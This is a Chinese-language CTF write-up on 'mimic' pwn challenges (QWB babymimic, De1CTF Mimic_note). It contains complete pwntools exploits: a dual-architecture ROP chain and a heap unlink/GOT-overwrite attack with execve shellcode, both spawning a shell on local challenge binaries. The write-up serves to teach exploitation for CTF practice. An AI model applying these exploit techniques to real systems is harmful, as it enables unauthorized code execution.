 ```yaml
---
title: Mimic
date: 2019-08-23 11:15:33
tags: heap
---
```

De1ctf mimic_note & qwb babymimic
<!--more-->
# Mimic
基拟态美..目前的拟态Pwn题（我只接触过两题）都是一个32一个64让你写一个exp两个binary都跑一下但是输出要相同，不同就挂掉
也就是要求写出32/64位通用的exp（而且输出要相同）。
# Stack
[attachment][2]
## Analysis
主要问题是让32位和64位走两个不同的ropchain
解决办法是利用了32位和64位返回地址在buf的不同位置。
32位采用了`add esp ,0x100`来避开64位的ropchain
比较简单exp如下
## exp
```python
from pwn import *
context.log_level='debug'
context.arch='amd64'
p=process('./__stkof')
syscall=0x0000000000461645
rax=0x000000000043b97c
rdi=0x00000000004005f6
rsi=0x0000000000405895
rdx=0x000000000043b9d5
add=0x0806b225
eax=0x080a8af6
dcb=0x0806e9f1
int0x80=0x806f2ff
gdb.attach(p,'')
pay='A'*0x110+p32(add)+p32(0)
pay+=(p64(rax)+p64(0x0)+p64(rsi)+p64(0x0069e200)+p64(rdi)+p64(0)+p64(rdx)+p64(0x200)+p64(syscall)+p64(rax)+p64(0x3b)+p64(rdi)+p64(0x0069e200)+p64(rsi)+p64(0)+p64(rdx)+p64(0)+p64(syscall)).ljust(0x100-4,'\x00')
pay+=p32(dcb)+p32(0x200)+p32(0x080d7200)+p32(0)+p32(eax)+p32(3)+p32(int0x80)+p32(dcb)+p32(0)+p32(0)+p32(0x080d7200)+p32(eax)+p32(0xb)+p32(int0x80)
p.sendafter("?\n",pay.ljust(0x300))

p.send("/bin/sh")
p.interactive('n132>')
```
# Heap
[D1eCTF2019:Mimic_note][https://github.com/De1ta-team/De1CTF2019/tree/master/writeup/pwn/Mimic_note]
[attachment][1]
当时在参加夏令营听课没有本以为那个mmap的段是不能执行的就想到泄漏地址一定会死就感觉有点难就没有继续做...
现在复现一下
## Analysis
```python
[*] '/home/n132/Desktop/attachment/attachment/mimic_note_64'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
没有开全`RELRO`没开`PIE`

存在明显的`off-by-one`于edit功能中
但做一个架构下的直接`UNLINK`就可以造成任意地址写.
还有泄漏啥的...


主要是因为要做两个架构的所以泄漏地址什么的应该是没戏了，但是还有个可读可写可执行的段并且已知地址那么就不需要泄漏地址了.

那么如何做UNLINK呢
首先 x64和x86下通用的结构是不可取的因为x64下填满一个chunk造成off-by-null要求malloc的参数为:0x8+0x10* x
但是x86下为 0x4+0x8* x
所以不会有一个chunk-size同时满足两个...就算有那unlink之后的事情也比较棘手.

然后我就惊喜地发现x64做unlink的时候x86的`binary`并不会造成影响. x86做unlink的时候x64的`binary`不会受到影响.
于是乎就有了思路


* x64 x86 分别做UNLINK 
* 分别控制free的got
* call shellcode.


其中因为是没有输出序号或者地址什么的..所以两个程序只要不崩溃不去call show函数输出就是一样的到最后两边都修改好了free got就可以获得shell.

## exp
```python
from pwn import * 
#context.arch='amd64'
#context.terminal=['tmux','splitw','-h']
context.log_level='debug'
def cmd(c):
    p.sendlineafter(">> ",str(c))
def add(size):
    cmd(1)
    p.sendlineafter("?\n",str(size))
def free(idx):
    cmd(2)
    p.sendlineafter("?\n",str(idx))
def show(idx):
    cmd(3)
    p.sendlineafter("?\n",str(idx))
def edit(idx,c):
    cmd(4)
    p.sendlineafter("?\n",str(idx))
    p.sendafter("?\n",c)
#p=process("./mimic_note_64")
p=process("./mimic")
add(0x18)
add(0x18)
add(0x88)
add(0xf8)
add(0x18)
edit(2,p64(0)+p64(0x81)+p64(0x123020-0x18)+p64(0x123020-0x10)+'\x00'*0x60+p64(0x80))
free(3)
edit(2,p64(0xff)+p64(0x0000000000123100)+p64(0xff)+p64(0x000000000602018)+'/bin/sh\x00')

context.arch='amd64'

sh='''
xor rax,rax
mov al,0x3b
mov rdi,0x123028
xor rsi,rsi
xor rdx,rdx
syscall
'''
sh=asm(sh)
edit(1,sh)

add(0xf8)
add(0x84)
add(0xf8)
add(0x18)
edit(5,p32(0)+p32(0x81)+p32(0x123028-0xc)+p32(0x123028-0x8)+'\x00'*0x70+p32(0x80))
gdb.attach(p,'b *0x000000000400927')
free(6)
sh='''
xor eax,eax
mov al,0xb
mov ebx,0x123040
xor ecx,ecx
int 0x80
'''
context.arch='i386'
edit(5,'\x00'*0xc+p32(0x804a014)+p32(0XFF)+p32(0)*2+p32(0x123200)+p32(0xff)+'/bin/sh\x00')
edit(5,p32(0x123200))
edit(7,asm(sh))
#x64
edit(2,p64(0x123100)[:-1])
free(0)
p.interactive()
```

# summary
mimic在需要泄漏的情况下还是比较难的,不泄漏可以利用dl_resolve或者x64x86的不一致来让不同的binary走不同的路.


[1]: https://github.com/n132/WriteUps/tree/master/2019_De1CTF
[2]: https://github.com/n132/WriteUps/tree/master/2019_qwb/babymimic